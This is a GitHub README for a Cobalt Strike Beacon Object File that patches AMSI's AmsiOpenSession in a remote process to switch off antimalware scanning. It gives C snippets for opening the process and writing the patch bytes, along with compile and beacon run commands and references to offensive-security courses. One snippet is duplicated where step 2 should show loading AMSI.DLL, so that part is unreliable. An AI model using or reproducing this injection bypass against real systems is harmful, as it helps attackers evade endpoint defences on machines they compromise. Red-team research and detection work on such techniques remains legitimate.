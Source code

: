## Cobalt Strike BOF - Inject AMSI Bypass
Cobalt Strike Beacon Object File (BOF) that bypasses AMSI in a remote process with code injection.

#### Running inject-amsiBypass BOF from CobaltStrike 
  ![](images/runningBof.png)

### What does this do?
##### 1. Use supplied PID argument to get a handle on the remote process
```c
hProc = KERNEL32$OpenProcess(PROCESS_VM_OPERATION | PROCESS_VM_WRITE, FALSE, (DWORD)pid);
```
##### 2. Load AMSI.DLL into beacons memory and get the address of AMSI.AmsiOpenSession
```c
hProc = KERNEL32$OpenProcess(PROCESS_VM_OPERATION | PROCESS_VM_WRITE, FALSE, (DWORD)pid);
```
+ Both beacon and the target process will both have the same address for the symbol.
+ If AMSI.DLL does not exist in the remote process, running this may crash the target process.
##### 3. Write the AMSI bypass to the remote processes memory
```c
unsigned char amsibypass[] = { 0x48, 0x31, 0xC0 }; // xor rax, rax
BOOL success = KERNEL32$WriteProcessMemory(hProc, amsiOpenSessAddr, (PVOID)amsibypass, sizeof(amsibypass), &bytesWritten);
```

### Method = AMSI.AmsiOpenSession
+ Uses the AMSI bypass technique taught in Offensive Security's PEN-300/OSEP (Evasion Techniques and Breaching Defenses) course.
  - https://www.offensive-security.com/pen300-osep/

### Proof of Concept Demo Screenshots
#### Before - Powershell.exe AMSI.AmsiOpenSession
  ![](images/Before-Amsi-OpenSession.png)

#### After - Powershell.exe AMSI.AmsiOpenSession
  ![](images/After-AmsiOpenSession.png)

### Compile with x64 MinGW:
```bash
x86_64-w64-mingw32-gcc -c inject-amsiBypass.c -o inject-amsiBypass.o
```
### Run from Cobalt Strike Beacon Console
```bash
beacon> inject-amsiBypass <PID>
```
+ Make sure to load the inject-amsiBypass.cna script into Cobalt Strikes Script Manager

### To Do List
+ Check that AMSI.DLL exists in remote process before injection
+ Add other AMSI bypasses to inject
+ Support x86

### Credits / References
##### Raphael Mudge - Beacon Object Files - Luser Demo
+ https://www.youtube.com/watch?v=gfYswA_Ronw
##### Cobalt Strike - Beacon Object Files
+ https://www.cobaltstrike.com/help-beacon-object-files
##### BOF Code References
###### ajpc500/BOFs
+ https://github.com/ajpc500/BOFs/
###### trustedsec/CS-Situational-Awareness-BOF
+ https://github.com/trustedsec/CS-Situational-Awareness-BOF
##### Sektor7 Malware Dev Essentials course
+ https://institute.sektor7.net/red-team-operator-malware-development-essentials
##### Offensive Security OSEP
+ https://www.offensive-security.com/pen300-osep/
